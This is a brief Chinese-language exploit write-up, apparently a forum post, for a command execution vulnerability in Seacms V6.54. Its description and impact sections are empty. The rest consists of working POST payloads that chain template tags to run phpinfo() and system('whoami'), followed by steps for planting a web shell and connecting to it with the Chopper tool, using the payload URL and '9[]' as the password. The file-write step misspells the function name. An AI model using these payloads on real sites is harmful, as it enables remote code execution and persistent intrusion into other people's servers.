 # Seacms V6.54

> 原文：[https://www.zhihuifly.com/t/topic/3115](https://www.zhihuifly.com/t/topic/3115)

# Seacms V6.54 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 命令执行payload

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo(); 
```

* * *

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami"); 
```

> 权限足够的话，`file_put_concents(“connect.php”,”“)`，然后连接菜刀即可

> 权限不足的话，利用payload构造url：

```
http://0-sec.org/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9])) 
```

> 连接放入菜刀，密码是 9[]